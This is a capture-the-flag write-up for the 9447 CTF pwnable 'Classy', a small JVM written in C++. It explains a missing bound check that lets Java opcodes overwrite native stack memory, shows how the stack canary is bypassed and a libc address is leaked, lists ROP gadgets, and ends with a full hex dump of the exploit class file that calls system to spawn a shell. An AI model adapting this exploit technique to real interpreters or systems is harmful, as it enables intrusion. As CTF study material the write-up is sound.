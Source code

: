 ## Classy 9447 CTF Pwnable 430

We ranked 10th in the recent 9447 CTF games. And here is a writeup about
pwnable Classy.

### Introduction

The binary is about 150KB large, which is a Java virtual machine written in
C++. Your input is a Java Class file and then the jvm runs it. Mainly, the
class could only have two methods: <init> and main, and limited ojects:
Integer, String and StringBuilder. Many Java opcodes are not supported, and
also limited virtual calls of the objects are supported.

NX & ASLR & stack canary is enabled.

### Vulnerability

Let's focus on the realization of the Java opcodes. We know that Java opcodes
manipulate data on the stack.

And the vulnerability is that this jvm does not have any check on the bound of
the size of the Java stack and more important thing is that the Java stack and
the native stack share one area.

There are some Java opcodes like istore i or iload i which means get the local
variable #i and save the local variable #i from or to the stack. Another
vulnerability is that there is no check on the range of the index i which means
you could do a read-where and write-where.

However, things are not very easy. Everytime we push a integer on the stack, 8
bytes are pushed, where the first 4 bytes are 0x2f and the last 4 bytes are the
value of the integer. 0x2f is an identifier of the Integer object.

### Exploitation

Actually there are mainly two ways to put the data onto the stack. One is to
use push-like opcodes, which pushes the data onto the top of the stack. The
other is to use istore i or iload i which I mentioned above.

As we can specify index #i, we can write anywhere we want on the stack but in a
very strange manner :-), looks like this

	[0x2f][0x41414141][0x2f][0x41414141]...[0x2f][0x41414141]

We can control 4 bytes in every 8 bytes. By setting #i, we can directly rewrite
stored return address on the stack, skipping the stack canary. Yeah, now we can
do ROP, but a more difficult situation. 0x2f should be popped out otherwise it
will give us many troubles. Actually we do not find a way to construct a such a
ROP chain to get a shell XD. However it could be when we look into other team's
writeups after the game, by using these three gadgets to do write-where:

	[0x08053f49] pop edi ; pop ebx ; pop ebp ; ret
	[0x0804fbb1] mov eax, dword ptr [esp + 0xc] ; mov dword ptr [esp], eax ; pop eax ; ret 4
	[0x08059917] add dword ptr [ebx + 0x5f5e30c4], eax ; pop ebp ; ret 4

Now let me introduce the way we exploit during the game. The key is that the
base of local variables and the base of the stack actually has a difference of
4 bytes. So we can do something like this:

	[0x2f][0x2f][0x2f]([0x2f][Canary])...[0x2f][0x2f][RET]...[0x2f]([0x2f][main()'s RET])

At first, we use opcodes bipush 47 to push many Integer 0x2f onto the stack,
and stop just before the canary. Then we use iload to load the canary. Because
of the 4 bytes difference, 0x2f before the canary which is just the value
pushed by us is now used to be the fake identifier, and we confuse the jvm to
convince that the canary on the stack is a Java Integer Object. Then we use
istore to store the canary somewhere on the stack.

We know that the main() function's return address is on the stack and this
address is in libc file. We can use the same way as I describe above and iload
this address(info leak done), and push the offset(between this address and
system address) onto the stack, then use Java opcode iadd to get the real
address of system. Use istore to put it on the location of the return address
of the current function, another istore to store back the stack canary, and the
third istore to give the argument of system and finally get a shell.

I generated a normal Java Class file and edited on it to do the exploit. 010
Editor and its template helps me a lot. :) Here is the exploit we used in the
game:

```text
CA FE BA BE 00 00 00 2E 00 19 07 00 02 01 00 10
68 65 6C 6C 6F 77 6F 72 6C 64 2F 48 65 6C 6C 6F
07 00 04 01 00 10 6A 61 76 61 2F 6C 61 6E 67 2F
4F 62 6A 65 63 74 01 00 06 3C 69 6E 69 74 3E 01
00 03 28 29 56 01 00 04 43 6F 64 65 0A 00 03 00
09 0C 00 05 00 06 01 00 0F 4C 69 6E 65 4E 75 6D
62 65 72 54 61 62 6C 65 01 00 12 4C 6F 63 61 6C
56 61 72 69 61 62 6C 65 54 61 62 6C 65 01 00 04
74 68 69 73 01 00 12 4C 68 65 6C 6C 6F 77 6F 72
6C 64 2F 48 65 6C 6C 6F 3B 01 00 04 6D 61 69 6E
01 00 16 28 5B 4C 6A 61 76 61 2F 6C 61 6E 67 2F
53 74 72 69 6E 67 3B 29 56 03 41 41 41 41 03 00        Java constant pool here: 
02 61 DD 03 (08 06 02 D2) 01 00 04 61 72 67 73 01  <--- the difference between
00 13 5B 4C 6A 61 76 61 2F 6C 61 6E 67 2F 53 74         main()'ret and system address
72 69 6E 67 3B 01 00 01 69 01 00 01 49 01 00 0A
53 6F 75 72 63 65 46 69 6C 65 01 00 0A 48 65 6C
6C 6F 2E 6A 61 76 61 00 21 00 01 00 03 00 00 00
00 00 02 00 01 00 05 00 06 00 01 00 07 00 00 00
2F 00 01 00 01 00 00 00 05 2A B7 00 08 B1 00 00
00 02 00 0A 00 00 00 06 00 01 00 00 00 03 00 0B
00 00 00 0C 00 01 00 00 00 05 00 0C 00 0D 00 00
00 09 00 0E 00 0F 00 01 00 07 00 00 03 45 00 01
00 02 00 00 01 51 (10 2F 10 2F 10 2F 10 2F 10 2F  <--- Java opcodes to exploit
10 2F 10 2F 10 2F 10 2F 15 0D 36 08 10 2F 10 2F
10 2F 10 2F 10 2F 10 2F 10 2F 10 2F 10 2F 10 2F
10 2F 10 2F 10 2F 10 2F 10 2F 10 2F 10 2F 10 2F
10 2F 10 2F 10 2F 10 2F 10 2F 10 2F 10 2F 10 2F
10 2F 10 2F 10 2F 10 2F 10 2F 10 2F 15 2D 12 11
60 36 09 15 08 36 0D 15 09 36 0F 12 12 36 10) 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 B1 00 00 00 02 00 0A 00 00 01
C6 00 71 00 00 00 06 00 03 00 07 00 06 00 08 00
09 00 09 00 0C 00 0A 00 0F 00 0B 00 12 00 0C 00
15 00 0D 00 18 00 0E 00 1B 00 0F 00 1E 00 10 00
21 00 11 00 24 00 12 00 27 00 13 00 2A 00 14 00
2D 00 15 00 30 00 16 00 33 00 17 00 36 00 18 00
39 00 19 00 3C 00 1A 00 3F 00 1B 00 42 00 1C 00
45 00 1D 00 48 00 1E 00 4B 00 1F 00 4E 00 20 00
51 00 21 00 54 00 22 00 57 00 23 00 5A 00 24 00
5D 00 25 00 60 00 26 00 63 00 27 00 66 00 28 00
69 00 29 00 6C 00 2A 00 6F 00 2B 00 72 00 2C 00
75 00 2D 00 78 00 2E 00 7B 00 2F 00 7E 00 30 00
81 00 31 00 84 00 32 00 87 00 33 00 8A 00 34 00
8D 00 35 00 90 00 36 00 93 00 37 00 96 00 38 00
99 00 39 00 9C 00 3A 00 9F 00 3B 00 A2 00 3C 00
A5 00 3D 00 A8 00 3E 00 AB 00 3F 00 AE 00 40 00
B1 00 41 00 B4 00 42 00 B7 00 43 00 BA 00 44 00
BD 00 45 00 C0 00 46 00 C3 00 47 00 C6 00 48 00
C9 00 49 00 CC 00 4A 00 CF 00 4B 00 D2 00 4C 00
D5 00 4D 00 D8 00 4E 00 DB 00 4F 00 DE 00 50 00
E1 00 51 00 E4 00 52 00 E7 00 53 00 EA 00 54 00
ED 00 55 00 F0 00 56 00 F3 00 57 00 F6 00 58 00
F9 00 59 00 FC 00 5A 00 FF 00 5B 01 02 00 5C 01
05 00 5D 01 08 00 5E 01 0B 00 5F 01 0E 00 60 01
11 00 61 01 14 00 62 01 17 00 63 01 1A 00 64 01
1D 00 65 01 20 00 66 01 23 00 67 01 26 00 68 01
29 00 69 01 2C 00 6A 01 2F 00 6B 01 32 00 6C 01
35 00 6D 01 38 00 6E 01 3B 00 6F 01 3E 00 70 01
41 00 71 01 44 00 72 01 47 00 73 01 4A 00 74 01
4D 00 75 01 50 00 76 00 0B 00 00 00 16 00 02 00
00 01 51 00 13 00 14 00 00 00 03 01 4E 00 15 00
16 00 01 00 01 00 17 00 00 00 02 00 18
```

### Conclusion

It is a very interesting pwning problem since its file-based type and closed to
practice. I like it, and thanks to slipper for the most reversing work :D.

memeda@0ops
